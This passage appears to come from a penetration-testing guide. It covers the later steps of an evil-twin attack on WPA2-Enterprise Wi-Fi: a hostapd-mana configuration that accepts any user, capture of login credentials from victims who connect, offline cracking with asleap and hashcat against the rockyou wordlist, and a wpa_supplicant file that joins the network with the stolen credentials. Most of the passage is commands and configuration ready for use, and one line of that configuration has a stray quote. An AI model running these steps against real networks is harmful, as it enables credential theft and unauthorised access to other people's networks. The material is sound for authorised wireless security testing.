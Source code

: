 ```bash
# EAP TLS MitM

mana_eaptls=1
```

Next, create the `mana.eap_user` file in `/etc/hostapd-mana/` with the following configurations:
```bash
* PEAP,TTLS,TLS,FAST

"t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
```

#### 8. **Start the Hostapd-MANA Server**[](#id-8.-start-the-hostapd-mana-server)

Run the following command to start the Hostapd-MANA server:

```bash
hostapd-mana /etc/hostapd-mana/mana.conf
```

This will emulate a rogue AP using the WPA2 Enterprise configuration.

#### 9. **Capture User Login Credentials**[](#id-9.-capture-user-login-credentials)

Monitor traffic using `hostapd-mana` for successful logins. Once a user successfully authenticates, you can capture their credentials. Use `asleap` to crack the credentials:

```bash
./asleap -C 'd6:ff:33:73:aa:35:3f:3b' -R '4e:45:c7:ba:b0:93:d7:01:1e:9b:3a:5d:f7:d9:fa:88:21:2b:ea:c5:ac:9c:8c:47' -W /usr/share/wordlists/rockyou.txt
```

#### 10. **Use Hashcat to Crack the Hashes**[](#id-10.-use-hashcat-to-crack-the-hashes)

You can also use `hashcat` to crack the obtained hashes:

```bash
hashcat -m 5500 hash.txt /usr/share/wordlists/rockyou.txt
```

11. **Connecting to The Wireless Network:**

Finally, create a `wpa.conf` file for WPA2 EAP authentication. You are adding in the SSID, username, and password:

```bash
network={
	ssid="NetworkName"
	scan_ssid=1
	key_mgmt=WPA-EAP
	identity="Domain\username"
	password="password"
	eap=PEAP
	phase1=peaplabel=0"
	phase2="auth=MSCHAPV2"
}
```
